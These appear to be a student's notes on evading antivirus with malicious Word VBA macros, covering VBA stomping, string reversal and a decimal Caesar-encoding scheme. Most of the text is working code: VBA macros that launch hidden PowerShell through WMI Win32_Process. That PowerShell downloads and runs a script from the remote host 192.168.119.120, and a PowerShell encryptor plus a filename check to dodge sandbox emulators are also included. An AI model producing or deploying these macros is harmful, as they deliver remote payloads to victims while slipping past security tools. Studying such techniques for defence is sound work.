




bypass AV in VBA
- SAME by encrypting vba macro via ceasar algo but with decimal values
- insert encrypted shell code and decrypted routine + time lapse will not help as signature based detection will catch them
Stomping on Microsoft word
- • • remove macro but sill make it execute
- flexHex
- First, we’ll open FlexHEX and navigate to File > Open > OLE Compound File



- ◇ ◇ remove this link in the editor, it could hide our macro from within the graphical Office VBA editor

Bypass with powershell embeded
- issues: powershellas a child of office + obfuscate runner
- solution1: create new process
- solution2 : obfuscation (e.g reverse string + reduce reverse usage ) / or ceasr cypher encrypt
Function bears(cows)
bears = StrReverse(cows)
End Function
Sub Mymacro()
Dim strArg As String
strArg = bears("))'txt.nur/021.911.861.291//:ptth'(gnirtsdaolnwod.)tneilcbew.ten.metsys tcejbo-wen((xei c- pon- ssapyb cexe- llehsrewop")
GetObject(bears(":stmgmniw")).Get(bears("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
Ceasar VBA encrypted via calling run.txt
- • • bypass heuristic based detection
- most emulator will rename the file before scanning it
- we can check if the name was unchanged
- Ps ecnyrptor
- encrypt winmgmts: ; Win32_Process ; powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt
- encryptor
$payload = "powershell -exec bypass -nop -w hidden -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
[string]$output = ""
$payload.ToCharArray() | %{
[string]$thischar = [byte][char]$_ + 17
if($thischar.Length -eq 1)
{
$thischar = [string]"00" + $thischar
$output += $thischar
}
elseif($thischar.Length -eq 2)
{
$thischar = [string]"0" + $thischar
$output += $thischar
}
elseif($thischar.Length -eq 3)
{
$output += $thischar
}
}
$output | clip- vba script (paylod to be changed)
Function Pears(Beets)
Pears = Chr(Beets - 17)
End Function
Function Strawberries(Grapes)
Strawberries = Left(Grapes, 3)
End Function
Function Almonds(Jelly)
Almonds = Right(Jelly, Len(Jelly) - 3)
End Function
Function Nuts(Milk)
Do
Oatmilk = Oatmilk + Pears(Strawberries(Milk))
Milk = Almonds(Milk)
Loop While Len(Milk) > 0
Nuts = Oatmilk
End Function
Function MyMacro()
If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
Exit Function
End If
Dim Apples As String
Dim Water As String
Apples = "129128136118131132121118125125049062118137118116049115138129114132132049062127128129049062136049121122117117118127049062116049122118137057057127118136062128115123118116133049132138132133118126063127118133063136118115116125122118127133058063117128136127125128114117132133131122127120057056121133133129075064064066074067063066071073063066066074063066067065064115128128124063133137133056058058"
Water = Nuts(Apples)
GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin
End Function